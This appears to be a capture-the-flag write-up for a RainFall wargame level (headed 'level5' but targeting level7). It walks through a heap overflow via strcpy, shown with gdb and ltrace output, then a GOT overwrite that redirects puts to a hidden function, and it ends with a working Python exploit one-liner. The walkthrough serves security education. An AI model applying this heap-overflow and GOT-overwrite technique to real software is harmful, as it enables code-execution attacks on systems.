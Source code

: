 # level5
Four sections in the program:

- It copies `argv[1]` and `argv[2]` using `strcpy` into two  allocated memory blocks of 8 bytes each, without checking the size of the input.

- The program reads the aimed flag file with `fopen` then `fgets` and store the flag in a global string named `c`.

- At the end, it prints a useless message  with `puts("~~")`

- A function `m` prints the content of `c` but is never called.

## Goal
Overflow the allocated memory to call `m()` instead of `puts()` to print the flag.

## Step 1
The program SEGFAULTS when `argv[1]` is too long.


```console
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f82 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)
```
- `0xb7eb8f82` is not a segment of the pattern.  

- Deduction : The overflow doen'st overwrites the next instruction pointer `eip`.

---

Info registers
```console
(gdb) i r
eax            0x68756f79	1752526713
ecx            0xbffff8e0	-1073743648
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f82	0xb7eb8f82
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

It overwrites `eax` and `edx`

## Step 2
Go deeper

```bash
level7@RainFall:~$ ltrace ./level7 AAAA ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7c4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAA")                                                                                    = 0x0804a018
strcpy(0x0804a038, "ok")                                                                                      = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                                         = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
`argv[1]` is copied at `0x0804a018`: "AAAA"  
`argv[2]` is copied at `0x0804a038`: "ok"

---

```bash
level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH")                                                        = 0x0804a018
strcpy(0x46464646, "ok" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
The destination of the second copy is overwritten.

### Solution
Since the destination of the second `strcpy` can be overwritten, We have to set the destination to the location of `puts` in the __GOT__.  

And we can change the value at the location of `puts` in the __GOT__ by the address of `m` function. Thanks to the `source` argument of `strcpy`

## Step 3
Find the address of `m`
```bash
(gdb) info function
```
```console
All defined functions:

Non-debugging symbols:
0x080484f4  m
0x08048521  main
```

`m` is at `0x080484f4`

## Step 4
Find the location in the __GOT__ where the address of `puts` is stored.
```bash
readelf -r level7
```
```console
08049928  00000607 R_386_JUMP_SLOT   00000000   puts
```

Address of `puts` is at `0x08049928` in the __GOT__.

### Verification
```console
(gdb) disas main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
```


## Exploit
```bash
/home/user/level7/level7 $(python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```